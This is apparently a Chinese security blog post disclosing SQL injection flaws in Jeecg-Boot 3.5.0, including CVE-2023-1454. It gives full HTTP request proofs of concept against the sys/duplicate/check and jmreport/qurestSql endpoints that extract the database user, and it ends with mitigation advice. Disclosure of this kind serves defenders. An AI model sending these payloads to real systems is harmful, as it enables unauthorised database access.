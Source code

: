 #  Jeegc-Boot 最新多个SQL注入漏洞

原创 Hack All [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞库 25 个

#漏洞复现 13 个

#漏洞知识 12 个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143321.png)

**简介**  

Jeecg-Boot是一款基于Spring Boot和Jeecg-Boot-
Plus的快速开发平台，它提供了一系列的代码生成器、模板引擎、权限管理、数据字典、数据导入导出等功能，可以帮助开发者快速构建企业级应用。最近在最新的jeecg-
boot 3.5.0 中被爆出多个SQL注入漏洞。

官方网站：http://www.jeecg.com

 **影响范围**

Jeecg-Boot = v3.5.0

 **1、** **sys/duplicate/check 接口SQL注入**

sys/duplicate/check 接口存在SQL注入漏洞，checksql可以被绕过，需要身份认证，判断当前数据库用户：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143323.png)

![]()

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4737

Poc：

  *   *   *   *   *   *   *   *   * 

    
    
    GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1Host: 127.0.0.1:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36Connection: closeCache-Control: max-age=0X_ACCESS_TOKEN: [Token值]

 **2、jmreport/qurestSql 未授权SQL注入(CVE-2023-1454)**

根据J0hnWalker的分析，漏洞产生的主要原因是jimureport-spring-boot-
starter-1.5.6.jar中/org/jeecg/modules/jmreport/desreport/a/a.class文件：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143324.png)

参数 apiSelectId 会从jimu_report_db表中通过id参数查询数据，id参数未过滤：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143325.png)

jimu_report_db表中id值为1272834687525482497和1290104038414721025等的db_dyn_sql列是sql语句，且引用了id参数，这会导致二次注入：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143326.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143328.png)

Poc：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/qurestSql HTTP/1.1Host: localhost:8080Cache-Control: max-age=0sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "macOS"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6Connection: closeContent-Length: 130Content-Type: application/json;charset=UTF-8  
    {"apiSelectId":"1290104038414721025","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}

获取当前数据库用户：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143329.png)

来源：  

  * 

    
    
    https://github.com/J0hnWalker/jeecg-boot-sqli

 **3、jmreport/loadTableData授权SQL注入**

可视化设计-->报表设计器功能处存在SQL注入：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143330.png)

通过新建报表添加SQL数据集：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143331.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143332.png)

在报表SQL中插入SQL语句，在数据预览时触发SQL注入：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143333.png)

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4702

 **修复建议**  

1、目前官方暂未发布安全版本修复该漏洞，请及时关注官网最新版本的发布情况。2、设置访问IP白名单或将系统部署到内网环境中。3、修改漏洞代码，过滤id参数，防止SQL注入。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

